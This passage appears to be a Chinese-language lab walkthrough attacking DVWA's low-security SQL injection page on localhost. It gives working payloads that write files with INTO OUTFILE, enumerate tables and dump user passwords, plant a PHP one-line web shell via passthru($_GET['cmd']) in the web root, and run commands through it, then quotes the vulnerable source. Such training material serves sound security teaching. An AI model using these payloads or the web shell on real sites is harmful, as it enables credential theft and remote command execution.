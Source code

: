 ```sql
-- 注意要用\\，或者/,不然会发现找不到
1'; select '123' into outfile 'c:/kk.txt';#
-- 或者
1'; select '123' into outfile 'c:\\kk.txt';#
```

发现当前是有权限的用户(因为用的admin登入的)，如果不是可以参考**案例一**，将数据库权限进行提权，利用admin登入，这里贴几条命令

```sql
-- 获取数据库名字，得到数据库名字为dvwa
1' union select 1, database() ; #
-- 获取数据库对应的表名及其字段，得到user表
1' union select table_name, column_name from information_schema.columns where table_schema="dvwa"; #
-- 查询users表，获取admin，登入密码。
1' union select user, password from users ; #
```

假设我们已经有数据库的写权限。

执行写权限操作后，web页面报错：

```php
// 这里注意，这里爆出来绝对路径，下面要用到.
Warning: mysql_numrows() expects parameter 1 to be resource, boolean given in C:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\sqli\source\low.php on line 12
```

刷新一遍页面，或者再提价一下，发现出现

```sql
File 'c:/kk.txt' already exists
```

说明写入成功，接下来需要的是往dvwa网站中写入一句话木马，利用上面报错的信息产生的绝对路径`C:\phpStudy\PHPTutorial\WWW\DVWA`

```sql
' union select null, "<?php passthru($_GET['cmd']); ?>" into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\DVWA\\pp.php" #
```

可以在web目录中找到：`\DVWA\pp.php`内容是：`<?php passthru($_GET['cmd']); ?>`

这里进行访问：http://localhost/dvwa/pp.php?cmd=dir ，这里可能还会涉及到shell的提权，后面讲。

<img src="https://www.crabglory.club/img/post/network security/images/dvwa_lib/sql_inject_low_cmd_dir.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="250px"/>

`?cmd=dir`传入cmd的命令

**看一下low的源码**

```php
// Get input
$id = $_REQUEST[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

